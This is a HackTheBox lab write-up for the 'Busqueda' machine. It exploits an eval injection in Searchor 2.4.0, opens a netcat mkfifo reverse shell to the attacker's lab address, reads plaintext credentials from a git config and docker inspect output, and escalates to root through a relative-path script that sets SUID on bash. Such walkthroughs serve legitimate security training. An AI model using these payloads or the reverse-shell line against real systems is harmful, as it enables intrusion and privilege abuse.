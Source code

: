 ```yaml
---
layout: single
title: Busqueda hackthebox writeup
excerpt: "Easy linux machine in which we exploit a known vulnerability,find plaintext credentials, and abuse a relative path "
date: 2023-04-11
classes: wide
header:
  teaser: /assets/images/busqueda/busqueda_icon.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - writeup
tags:
  - hackthebox
  - RCE
  - git
  - gitea
  - docker
---
```


![](/assets/images/busqueda/busqueda.png)

## User Flag

```shell
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Port 80 is open, it redirects to searcher.htb so make sure to add it to your `/etc/hosts`.

The web is a simple "search engine", by scrolling down we can see the software being used.

```
Powered by Flask and Searchor 2.4.0
```

After trying some SSTI just in case, I searched for Searchor 2.4.0 and found its Snyk Page [here](https://security.snyk.io/vuln/SNYK-PYTHON-SEARCHOR-3166303). There isn't any POC available so you need to exploit it manually by yourself by looking at the github pull request.

```python
f"Engine.{engine}.search('{query}', copy_url={copy}, open_web={open})"
```

Basically, this line creates a string by calling the method search of the object Engine (then it gets executed by eval), the only injectable parameter here is query since engine is sanitized. knowing it's a string a payload like this does the trick

```python
'+__import__('os').system('ls')+'
```

Now that we have RCE let's just run a reverse shell. The mkfifo payload works fine most of the time.

```python
'+__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.76 7777 >/tmp/f')+'
```

```shell
[dasor@archlinux ~/htb/busqueda]$ nc -lvp 7777
Listening on 0.0.0.0 7777
Connection received on gitea.searcher.htb 45578
sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
svc@busqueda:/var/www/app$ ^Z
zsh: suspended  nc -lvp 7777
[dasor@archlinux ~/htb/busqueda]$ stty raw -echo;fg
[1]  + continued  nc -lvp 7777
                              script /dev/null -c bash
Script started, output log file is '/dev/null'.
svc@busqueda:/var/www/app$ export TERM=xterm
svc@busqueda:/var/www/app$
```

## Root flag

By looking at the git repository in the app directory we can find plaintext credentials. This lets us execute sudo -l.

```shell
svc@busqueda:/var/www/app/.git$ cat config
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[remote "origin"]
        url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
        fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
        remote = origin
        merge = refs/heads/main
svc@busqueda:/var/www/app/.git$ sudo -l
[sudo] password for svc:
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

Now, we can use docker inspect to get data from the containers

```shell
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect {% raw %} '{{json .Config}}' {% endraw %} gitea | tr , '\n'
{"Hostname":"960873171e2e"
"Domainname":""
"User":""
"AttachStdin":false
"AttachStdout":false
"AttachStderr":false
"ExposedPorts":{"22/tcp":{}
"3000/tcp":{}}
"Tty":false
"OpenStdin":false
"StdinOnce":false
"Env":["USER_UID=115"
"USER_GID=121"
"GITEA__database__DB_TYPE=mysql"
"GITEA__database__HOST=db:3306"
"GITEA__database__NAME=gitea"
"GITEA__database__USER=gitea"
"GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh"
...
```

With this, we now have the admin password for gitea.

If we add gitea.searcher.htb to `/etc/hosts` we can access it. Now, we have access to the source code of all the scripts in the `/opt/scripts` directory.

```python
  elif action == 'full-checkup':
        try:
            arg_list = ['./full-checkup.sh']
            print(run_command(arg_list))
            print('[+] Done!')
```

This part is using a **relative** path so we can just create our own `full-checkup.sh` and run it as root

```shell
svc@busqueda:~$ cat > full-checkup.sh
#!/bin/bash
chmod u+s /bin/bash
^C
svc@busqueda:~$ ls
full-checkup.sh  user.txt
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup

[+] Done!
svc@busqueda:~$ bash -p
bash-5.1# whoami
root
```
